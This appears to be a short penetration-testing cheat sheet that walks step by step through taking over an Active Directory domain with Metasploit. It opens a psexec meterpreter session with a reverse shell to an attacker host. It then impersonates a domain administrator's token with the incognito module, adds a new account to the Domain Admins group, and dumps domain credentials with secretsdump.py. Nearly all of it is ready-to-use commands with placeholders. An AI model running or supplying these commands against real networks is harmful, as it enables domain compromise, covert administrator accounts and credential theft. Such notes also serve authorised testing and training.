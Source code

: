 # Metasploit

1. Open a meterpreter on the target as an administrative user:
```msfconsole
use exploit/windows/smb/psexec
set payload windows/x64/meterpreter/reverse_tcp
set rhosts <ip>
set smbuser <user>
set smbpass <password>
set smbdomain <AD-domain>
set lhost <attacker-ip>
```
2. Load incognito module in *msfconsole*:
```msfconsole
load incognito
```
3. List user tokens (With the command `help` we can list all available options):
```msfconsole
list_tokens -u
```
4. Impersonate a user from the list:
```msfconsole
impersonate_token <AD-domain>\\<user>
```
5. Undo impersonation  = revert back to the original user:
```msfconsole
rev2self
```

>[!Note] Game over
>If a domain-administrator has logged in to the machine before, his token should be available and we should be able to impersonate him and thus completely own the domain!

As an impersonated domain-admin we can create our own domain-admin user:
```msfconsole
net user /add <user> <password> /domain
```

Add the user to the domain admin group:
```msfconsole
net group "Domain Admins" <user> /ADD /DOMAIN
```

Proof:
In a new command window use *secretsdump.py* on the DC:
```bash
secretsdump.py <AD-domain>/<user>:'<password>'@<dc-ip>
```